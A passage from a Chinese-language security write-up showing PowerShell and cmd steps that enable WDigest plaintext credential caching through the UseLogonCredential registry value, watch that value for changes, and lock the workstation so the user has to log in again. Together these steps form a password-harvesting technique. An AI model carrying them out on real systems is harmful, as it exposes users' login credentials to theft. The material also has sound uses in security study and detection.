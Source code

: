 0x04 扩展方法
=====

**通过powershell实现**

### 1、修改注册表

键值设为1：

```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1

```

循环判断注册表键值是否为0，如果为1，等待10s再次判断，如果为0，退出循环，可用来监控此注册表键值是否被修改：

```
$key=Get-ItemProperty -Path "Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\" -Name "UseLogonCredential"
$Flag=$key.UseLogonCredential
write-host "[+]Checking Flag"
while($Flag -eq 1)
{
    write-host "[+]Flag Normal"
    write-host "[+]Wait 10 Seconds..."
    Start-Sleep -Seconds 10
    $key=Get-ItemProperty -Path "Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\" -Name "UseLogonCredential"
    $Flag=$key.UseLogonCredential
    write-host "[+]Checking Flag"
}
write-host "[!]Flag Changed!"

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/f8dc295b0104bfe306c846b59cd70c177d2162dc.jpg)

### 2、锁屏

锁屏操作的快捷键为`Win+L`

cmd下命令为：

```
rundll32.exe user32.dll,LockWorkStation

```

powershell代码如下：

```
Function Lock-WorkStation {
$signature = @"
[DllImport("user32.dll", SetLastError = true)]
public static extern bool LockWorkStation();
"@

$LockWorkStation = Add-Type -memberDefinition $signature -name "Win32LockWorkStation" -namespace Win32Functions -passthru
$LockWorkStation::LockWorkStation() | Out-Null
}
Lock-WorkStation

```
